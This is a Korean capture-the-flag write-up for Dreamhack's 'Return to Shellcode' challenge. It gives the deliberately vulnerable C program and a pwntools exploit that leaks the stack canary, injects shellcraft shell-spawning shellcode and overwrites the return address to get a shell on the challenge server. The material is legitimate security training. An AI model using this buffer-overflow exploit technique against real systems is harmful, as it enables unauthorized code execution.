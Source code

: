 ```yaml
---
title: "[Dreamhack] Return to Shellcode 문제 풀이"
date: "2024-09-13"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: ""
---
```


# 문제 파악

일단 이 문제의 핵심은 canary이다. 하지만 canary의 Shellcode를 곁들인 느낌이다.

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

위에 이 코드는 이 문제의 소스코드인데 간단하다.
NX가 걸려있지 않은 상태로 컴파일되는 형태이고, 첫번째 input에선 canary를 leak하고 두번째 input에선 shellcode와 더미값(SFP 포함) 그리고 leak했던 canary를 넣어주면 정상적으로 넘어갈 수 있는 문제다.

**이제 문제 분석은 끝났으니 한번 익스를 짜보자**

# 익스 코드 작성

```python
from pwn import *

p = remote('host1.dreamhack.games', 22266)
#p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))


shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

익스 코드는 위와 같다. 간단하게 설명해보겠다.

```python
p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))
```

이 파트는 문제파일에서 실행시 출력해주는 buf 주소 값과 BOF를 통해서 canary 값을 leak을 시킨다.
buf의 주소 값은 추후 Shellcode를 넣고 나서 다시 되돌아갈 포인트이기에 중요하다.
canary는 추후 Return Address Overwrite를 진행할때 canary 값이 깨지기에 이를 방지하고자 꼭 필요한 값이다.

하여튼 **중요한** 값을 두개를 추출한 뒤 이젠 다음 작업을 진행한다.

```python
shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

이 파트는 Shellcode + Canary + SFP + buf 주소를 합쳐서 input 두 개에 값을 집어넣는다.
여태까지 포너블 문제를 풀어오면서 shellcraft를 처음 써보았다.

하여튼 shellcraft로 Shellcode를 만들어주고, 맨 앞엔 Shellcode, 그 뒤엔 Shellcode의 길이 만큼 뺀 더미 값, 좀전에 추출한 Canary, SFP에 들어갈 더미, 다시 돌아갈 buf 주소로 페이로드를 구성해주었다.

**자 그러면 이제 익스를 날려보자.**

# 익스플로잇!!

![](https://i.imgur.com/VOCL5JT.png)

아\~\~\~\~주 잘되는 모습을 볼 수 있다 :)

# 느낀점

아잇,, 이거 페이로드 부분 짤 때 엄청 빡셌던 기억이 납니다.
buf 길이가 계속 자기자리 못잡고 남의 자리를 침범해서 조금 짜증났었습니다.
뭐.. 그래도 요래요래 하다보니 풀리더군요.
갠적으로 이미 배운 부분하고 융합해서 같이 할 수 있다는게 정말 좋았습니다.

